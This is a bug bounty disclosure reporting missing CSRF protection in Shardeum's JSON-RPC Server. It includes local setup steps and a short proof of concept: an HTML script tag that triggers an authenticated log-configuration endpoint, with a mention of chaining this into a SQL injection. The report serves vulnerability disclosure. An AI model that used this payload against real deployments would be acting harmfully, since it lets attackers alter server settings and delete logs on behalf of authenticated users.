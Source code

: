 
# CSRF in Json RPC Server allows requesting authenticated API endpoints

Submitted on Tue Aug 13 2024 11:15:51 GMT-0400 (Atlantic Standard Time) by @neplox for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #34475

Report type: Websites and Applications

Report severity: Low

Target: https://github.com/shardeum/json-rpc-server/tree/dev

Impacts:
- Injecting/modifying the static content on the target application without JavaScript (reflected), such as: Reflected HTML injection, Loading external site data

## Description
## Brief/Intro

There's no CSRF protection in JRS which allows an attacker to make API requests on behalf of authenticated user. An attacker can modify certain config properties as well as manipulate log files.

## Vulnerability Details

A developer may request `/:passphrase` endpoint to get an `access_token`. This token is used for the `/log` api. The application doesn't have any CSRF protection so its possible to request the authenticated APIs on behalf of authenticated user. 

## Impact Details

An attacker can delete important logs & change `recordTxStatus` and `statLog` config properties. Furthermore, by enabling these config properties, an attacker can exploit the SQL injection vulnerability (see [SQL injection in json-rpc-server within the`txStatusSaver` function via the IP argument leads to application shutdown] report).

## References

https://github.com/shardeum/json-rpc-server/blob/c3c462a4b18bc7517e086ff70f08ae6afede3b31/src/routes/authenticate.ts#L15C5-L15C8

        
## Proof of concept
### Set up shardeum network
Clone the Shardeum repo.
```
git clone https://github.com/shardeum/shardeum.git
cd shardeum
```
Switch to NodeJS 18.16.1, which is the version used by Shardeum in dev.Dockerfile and its various library requirements. For example, using asdf (https://asdf-vm.com/):
```
asdf install nodejs 18.16.1
asdf local nodejs 18.16.1
```
or
```
nvm use 18.16.1
```

Apply the debug-10-nodes.patch for network setup.
```
git apply debug-10-nodes.patch
```
Install dependencies and build the project.
```
npm ci
npm run prepare
```
Launch the network with 10 nodes as specified in the patch using the shardus tool.

```
npx shardus create 10
```
### Set up json rpc server
wait for a bit

Install json rpc server
```
git clone https://github.com/shardeum/json-rpc-server
```

Decrease the maxTxCountToStore to 1 in src/api.ts. This parameter defines how many transactions will be stored in the txStatuses array before they end up in sqlite3 db. For demonstration purposes, in order to execute the requests straight away, we change the parameter.

Switch to NodeJS 18.16.1, which is the version used by Shardeum in dev.Dockerfile and its various library requirements. For example, using asdf (https://asdf-vm.com/):
```
asdf install nodejs 18.16.1
asdf local nodejs 18.16.1
```
or
```
nvm use 18.16.1
```
then
```
npm ci
npm run start
```
If you see an error No Healthy Archivers in the Network. Terminating Server but the shardus network started successfully, wait for a few minutes for archive to became available and repeat the last command.

### Exploit

Go to `http://127.0.0.1:8080/authenticate/sha4d3um` to acquire an `access_token`

make an HTML page with the following content:

```
<script> location="http://127.0.0.1:8080/log/startRPCCapture" </script>
```

Open the page and see `message	"RPC interface recording enabled"` which confirms that we were able to change JRS settings.